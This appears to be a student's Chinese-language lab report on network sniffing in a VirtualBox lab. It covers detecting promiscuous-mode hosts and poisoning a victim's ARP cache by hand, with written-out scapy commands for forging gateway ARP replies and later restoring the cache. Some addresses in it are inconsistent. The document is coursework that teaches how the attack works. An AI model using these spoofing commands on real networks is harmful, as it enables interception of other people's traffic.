


# 网络监听实验

## 实验环境

###  网络拓扑

使用`第一次实验`中的internalNetwork1的`lihanGatewayDebian`、`lihanVictimKali1`以及新配置的`lihanAttackerKaliChap4`


### 如图所示网络中的节点基本信息如下：
- 攻击者主机(lihanAttackerKaliChap4)
- - mac地址：08:00:27:ef:46:19/eth0
- - ip地址：172.16.111.135
- 受害者主机(lihanVictimKali1)
- - mac地址：08:00:27:93:2e:67/eth0
- - ip地址：172.16.111.102
- 网关(lihanGatewayDebian)
- - mac地址：08:00:27:63:cd:72/enp0s9
- - ip地址：172.16.111.1

## 实验要求

* [x] 实验一：检测局域网中的异常终端
* [x] 实验二：手工单步“毒化”目标主机的 ARP 缓存

## 实验过程

###  实验准备

确定在攻击者主机上提前安装好 `scapy` 并更新

```bash
pip3 install scapy[complete]
```


### 实验一：检测局域网中的异常终端

- 注意，启动虚拟机前 要在虚拟机的网络配置处，允许开启混杂模式。

1. 在受害者主机上检查网卡的「混杂模式」是否启用

```bash
ip link show eth0

```


输出结果里没有出现`PROMISC`字符串,未开启混杂模式

2. 在攻击者主机上使用 `scapy` 发送 ARP 请求包，获取局域网中的主机信息

```bash
sudo scapy
pkt = promiscping("172.16.111.102")
```



3. 开启该网卡的「混杂模式」

```bash
sudo ip link set eth0 promisc on
```


此时会发现输出结果里多出来了 `PROMISC`

4. 再次使用 `scapy` 发送 ARP 请求包，获取局域网中的主机信息

```bash
pkt = promiscping("172.16.111.102")
```


5. 关闭该网卡的「混杂模式」
    
```bash
sudo ip link set eth0 promisc off
```

6. 总结
- 混杂模式 接收所有经过网卡的数据包，包括不是发给本机的包，不验证MAC地址
- 普通模式 网卡只接收发给本机的包

使用`wireshark`分析：


`promiscping`命令会发送`ARP who-has 请求`,且没有指定目的主机的MAC地址，只有受害者主机开启`混杂模式`后，才能收到该请求包。


### 实验二：手工单步“毒化”目标主机的 ARP 缓存

#### 获取当前局域网的网关 MAC 地址

1. 构造一个 ARP 请求

```bash
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,pdst="172.16.111.1")
# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```


2. 发送 ARP 请求

```bash
recved = srp(arpbroadcast, timeout=2)
```


3. 查看网关 MAC 地址

```bash
gw_mac = recved[0][0][1].hwsrc
gw_mac
```


#### 伪造网关的 ARP 响应包

1. 发送给受害者主机 192.168.0.102,ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
    
```bash
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.102", hwdst="08:00:27:ef:48:19")

arpspoofed.show()
```


2. 发送 ARP 响应包

```bash
sendp(arpspoofed)
```


3. 在受害者主机上查看 ARP 缓存



发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

#### 恢复受害者主机的 ARP 缓存

1. 伪装网关给受害者发送 ARP 响应

```bash
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:63:cd:72", pdst="172.16.111.102", hwdst="08:00:27:93:2e:67")

sendp(restorepkt1, count=100, inter=0.2)
```


2. 伪装受害者给网关发送 ARP 响应

```bash
restorepkt2 = Ether()/ARP(op=2, pdst="172.16.111.1", hwdst="08:00:27:63:cd:72", psrc="172.16.111.102", hwsrc="08:00:27:93:2e:67")

sendp(restorepkt2, count=100, inter=0.2)
```


3. 在受害者主机上准备“刷新”网关 ARP 记录

```bash
ping 192.168.0.1

ip neigh
```


### 实验问题

1. 实验环境配置
配置实验环境时候，产生了一个疑问，网络拓扑中的switch如何实现。之前只配置过vbox中的几种网络模式，没有专门选择switch或者hub。

`解决`
在联网搜索及浏览上次实验时的[笔记](https://lihan3238.github.io/p/virtualnetwork)后，了解到，Vbox中不需要专门配置switch或者hub，多种网络模式分别对应着不同的网络拓扑结构，虚拟出了switch等，根据需要选择即可。实验中需要的网络拓扑，选择`Internal Network(内部网络)`即可。

2. 网卡配置
配置攻击主机`lihanAttackerKaliChap4`的网卡时，发现不能获取ip地址。

`解决`
发现是因为自己没有开机`Gateway`主机，开机后，攻击主机可以获取到ip地址。


## 参考

- [网络安全-第四章 网络监听](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
- [黄老师的畅课视频回放](http://courses.cuc.edu.cn/course/111120/learning-activity/full-screen#/577986)
- [VirtualBox虚拟机几种网络的区别](https://lihan3238.github.io/p/virtualnetwork/)

